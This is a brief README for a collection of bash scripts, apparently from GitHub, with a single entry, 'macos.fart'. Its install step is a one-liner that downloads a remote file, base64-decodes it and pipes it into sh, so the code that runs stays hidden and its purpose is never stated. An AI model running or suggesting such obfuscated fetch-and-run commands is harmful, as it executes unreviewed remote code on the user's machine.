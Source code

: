 # bash


Collection of bash shell scripts.  These are not tested in other shells.


## macos.fart

This decodes a base64-encoded string and is for MacOS users only.
```
sh -c "$(curl -fsSL https://raw.githubusercontent.com/greaselovely/bash/main/macos.fart | base64 -d )"
```
